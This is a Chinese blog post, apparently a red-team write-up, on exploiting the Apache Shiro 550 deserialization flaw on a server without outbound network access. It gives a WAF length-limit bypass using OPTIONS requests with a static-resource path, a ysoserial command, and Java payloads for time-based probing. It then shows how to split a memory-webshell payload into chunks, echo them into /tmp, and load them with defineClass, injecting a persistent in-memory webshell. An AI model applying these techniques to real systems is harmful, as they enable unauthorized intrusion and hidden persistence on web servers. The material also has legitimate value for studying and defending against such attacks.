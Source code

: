 ```
标题: 一次 Shiro 的实战利用
创建: 2023-07-08
更新: 2023-07-08
```

[首发微信订阅号](https://mp.weixin.qq.com/s/w9sMhMrCy1pofOV-h94qbQ)

---

### 0x01 前言

本文记录一次攻防中比较苛刻场景下的 shiro 550 漏洞的不出网利用。


### 0x02 简介

主要内容：

- 绕过 WAF  对 rememberMe 长度的限制
- 加载本地字节码 defineClass 注入内存马

### 0x03 漏洞验证

1、验证后端反序列化功能是否正常

![](./img/1708845064398.png)

（被拦截）

根据经验猜测大概率是限制了 rememberMe 的长度

2、删减到 300 左右，正常放行

![](./img/1708845084474.png)

3、绕过 waf  对 rememberMe 长度的限制

OPTIONS 请求方式 + 静态资源 uri 路径

```
OPTIONS /app/login;index.css
```

成功将 rememberMe 的长度提升到 7000 左右

但超过 7000 依然会被拦截，没法再绕

![](./img/1708845114803.png)

4、验证后端反序列化功能是否正常

反序列化炸弹

```
java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|25"
```

延时成功，说明后端功能正常

![](./img/1708845149779.png)

5、探测目标是否出网

通过 urldns/httplog/jrmp 的方式探测，发现目标不出网

6、探测反序列化链

通过延时探测反序列化链

![](./img/1708845165034.png)

说明目标存在 gadget: CommonsCollections10

### 0x04 漏洞利用

7、梳理信息与思路

请求方式：OPTIONS

- 分离payload+动态类加载的姿势失效（OPTIONS 无法传递参数）
- 修改 maxHeaderSize 没用（nignx 反代）

目标不出网

- 远程加载字节码的姿势失效

利用思路

- 命令执行/代码执行 写文件马
- 代码执行 注内存马


8、判断目标操作系统

```java
public class Payload extends AbstractTranslet {
    public void transform(DOM var1, SerializationHandler[] var2) {}
    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) {}
    static {
        try {
            String osType = System.getProperty("os.name");
            if (osType != null && osType.toLowerCase().contains("win")) {
                Thread.sleep(3000);
            }else {
                Thread.sleep(5000);
            }
        } catch (Throwable var16) {
        }
    }
}
```

延时6s，说明目标操作系统极大概率为 *nix

![](./img/1708845232505.png)

9、尝试写文件马

通过 find 静态资源文件获取web路径并写入文件马，失败

猜测原因

- 当前用户权限问题（不是root）
- 当前应用部署问题（以springboot fatjar的方式部署）

10、排查写入失败原因

在 home 目录写文件

```
echo 123321 > /home/tmp.txt
```

判断文件是否写入成功

```java
File file = new File("/home/tmp.txt");
if (file.exists()) {
    Thread.sleep(2000);
} else {
    Thread.sleep(5000);
}
```

延时6s，说明当前权限足够，则很有可能是应用部署层面导致的，文件马的路到此为止，尝试内存马

11、尝试注入内存马

将字节码写到临时目录，然后从目标本地读取文件加载字节码

由于 paylaod 长度限制，内存马需要分散写入，经过测试发现每次最多能写长度为 1600 左右

1）使用 java-memshell-generator 辅助模块延时确认目标中间件为 tomcat

```
detect_way=Sleep
server_type=Tomcat
dnslog_domain=xxx.dnslog.cn
httplog_url=http://xxx.httplog.cn
sleep_seconds=5
gadget_type=JDK_AbstractTranslet
format_type=CLASS
```

2）拆分内存马，限制每组长度为 1600

```java
public static void main(String[] args) {
    String input = "[payload]";
int groupSize = 1600;
int length = input.length();
int startIndex = 0;
int endIndex = Math.min(length, groupSize);
int a = 1;
while (startIndex < length) {
        String group = input.substring(startIndex, endIndex);
        System.out.println(a + ":" + group);
        startIndex = endIndex;
        endIndex = Math.min(startIndex + groupSize, length);
        a++;
    }
}
```

拆分成了 14 组

![](./img/1708845336102.png)

3）写入内存马的字节码

```
// 第1次
echo [payload01] > /tmp/log.txt
// 第2 - 14次 使用 '>>' 追加文件内容
echo [payload14] >> /tmp/log.txt
```

4）读取字节码进行 defineClass

- 注意换行符问题

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
// 读取文件
byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/log.txt"));
String fileContent = new String(fileBytes, StandardCharsets.UTF_8);
// 删除多余的换行符
String base64Str = fileContent.replace("\r","").replace("\n","");
byte[] clazzByte = (new BASE64Decoder()).decodeBuffer(base64Str);
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
defineClass.setAccessible(true);
Class clazz = (Class)defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);
clazz.newInstance();
```

5）成功注入内存马

![](./img/1708845380780.png)

### 0x05  总结

目标虽然成功拿下了，但这是一种不太优雅的利用方式，不管是落地文件还是追加文件内容的选择都有可能会遇到更苛刻的挑战，比如文件无法落地、有负载均衡等。


---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)







